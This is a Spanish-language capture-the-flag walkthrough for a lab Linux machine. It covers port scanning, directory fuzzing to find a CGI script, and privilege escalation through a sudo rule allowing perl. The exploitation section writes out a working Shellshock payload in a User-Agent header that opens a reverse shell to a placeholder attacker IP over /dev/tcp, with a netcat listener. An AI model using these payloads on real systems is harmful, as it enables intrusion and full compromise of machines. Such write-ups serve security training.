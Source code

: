 ## Summary

Tags:  #Linux #HTTP #ShellShock #Sudoers #Fuzzing #Nmap 

- IP -> 10.10.10.56
- Ports -> TCP (80, 2222), UDP (idk)
- OS ->  Linux Ubuntu 
- Services & Applications
    - 80 -> Apache httpd 2.4.18 
    - 2222 -> OpenSSH 7.2p2 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

* 80 -> Apache httpd 2.4.18  -> Xenial 
* 2222 -> OpenSSH 7.2p2  -> Xenial

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Miramos con Whatweb
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Haremos fuzzing para buscar mas dir en la web. 
```bash
# Para hacer Fuzzing a la web
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ 

# Como no nos sale nada, debemos de colocarle la barra al final de FUZZ que seria lo mas recomendable
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
	# Encontramos un dir llamado 'cgi-bin'

# Este dir sale cuando tenemos un ShellShock como vulnerabilidad, por lo que haremos otro fuzzing pero con ese dir agregado a la ruta para descubrir archivos que pueden existir en ese dir cgi
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
	# Nos encuentra un "user - sh = user.sh"

```

Colocando la ruta final la cual sería: **10.10.10.56/cgi-bin/user.sh** nos permite descargar un archivo a la maquina de atacante. 

Pero en lugar de descargarlo, podemos ver lo que es con curl.
```bash 
❯ curl -s -X GET http://10.10.10.56/cgi-bin/user.sh      # Miramos el contenido del archivo, nos damos cuenta que es un archivo ejecutable dinamico
```

Cuando tenemos la carpeta cgi-bin, podemos hacer un ataque de ShellShock de la siguiente manera. 
```bash 
❯ nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56    # Ver si es vulnerable a ShellShock
```

```bash 
❯ curl -s -X GET http://<IP>/cgi-bin/user.sh -H "User-Agent: () { :; }; /usr/bin/whoami"  # Debemos de colocar la ruta del archivo.sh, ya que si solo colocamos /cgi-bin/ nos sladra que no tenemos permisos

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami

# Nos sale que el nombre del usuario es Shelly

# Podemos usar el ShellShock para ganar acceso a la maquina.
❯ curl -s -X GET http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 
```

Antes de usar el comando anterior, debemos de colocarnos en escucha para recibir la revershell
```bash
❯ nc -nlvp 443 
```

## User

Una vez dentro de la maquina victima, hacemos el tratamiento de la TTL para obtner una pseudo-consola

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora nos disponemos a buscar la flag del usuario. 

```bash
❯ lsb_release -a                             # Miramos algunas caracteristicas de la maquina Linux 
```

## Root

Para convertirnos en root buscamos en el Sudoers
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/perl
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

Y encontramos el comando que debemos de ejecutar para poder usar **Perl** y así convertirnos en root. Después buscamos el root.txt. 